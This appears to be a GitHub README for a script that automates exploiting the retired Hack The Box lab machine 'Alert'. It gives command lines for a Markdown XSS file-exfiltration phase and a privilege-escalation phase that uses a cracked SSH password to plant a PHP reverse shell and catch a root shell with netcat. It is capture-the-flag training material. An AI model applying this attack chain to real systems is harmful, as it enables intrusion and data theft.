 # 🧨 HTB - Alert AutoPwn Script

This script fully automates the exploitation of the retired Hack The Box machine **Alert**, including both **initial intrusion** and **privilege escalation to root**. It leverages a Markdown-based XSS, a local HTTP server, and a PHP reverse shell.

---
## 📋 Description

The script operates in two attack phases, selectable via `--type-attack`:

1. `intrusion`: Uploads a malicious `.md` file containing JavaScript to extract files from the target via XSS.
2. `privesc`: Uses valid SSH credentials for user `albert`, deploys a malicious `shell.php`, and spawns a reverse shell as root.

---
## 🧠 Requirements

- Python 3.x
- `sshpass` and `netcat` (`nc`) installed
- HTB VPN connection active
- Known password for `albert` (retrieved by cracking a hash)

---
## ⚙️ Usage

### 🐞 Phase 1 - XSS Intrusion

Starts an HTTP server to receive exfiltrated data from the vulnerable application:

```bash
python3 autopwn.py --type-attack intrusion --ip 10.10.14.5 --port 8000
```

Arguments:
- `--ip`	Your VPN IP to receive the HTTP request
- `--port`	Listening port for HTTP server (default: 8000)
- `--url`	Target base URL (default: http://alert.htb)

### ⚔️ Phase 2 - Privilege Escalation

Once you have cracked albert's password, use this phase to gain a root shell:
```bash
python3 autopwn.py --type-attack privesc --ip 10.10.14.5 --ssh-pass manchesterunited
```
Additional Arguments:
- `--ssh-pass`	Password for albert (required for privesc)
- `--ip-victim`	Victim IP address (default: 10.10.11.44)

The script will upload and execute shell.php over SSH and open a listener for the root reverse shell.

### 🧪 Full Attack Flow

```bash
# Step 1: XSS intrusion and file exfiltration
python3 autopwn.py --type-attack intrusion --ip 10.10.14.5 --port 8000

# Step 2: After cracking albert’s hash...
python3 autopwn.py --type-attack privesc --ip 10.10.14.5 --ssh-pass manchesterunited
```
### 🛠️ Features

    ✅ Clean menu with per-phase argument validation
    ✅ Dynamic JS and PHP payload generation (base64-encoded)
    ✅ SSH automation with sshpass (no user interaction)
    ✅ Reverse shell with nc listener spawned from Python
    ✅ Optional port forwarding functionality built-in (not used in default setup)
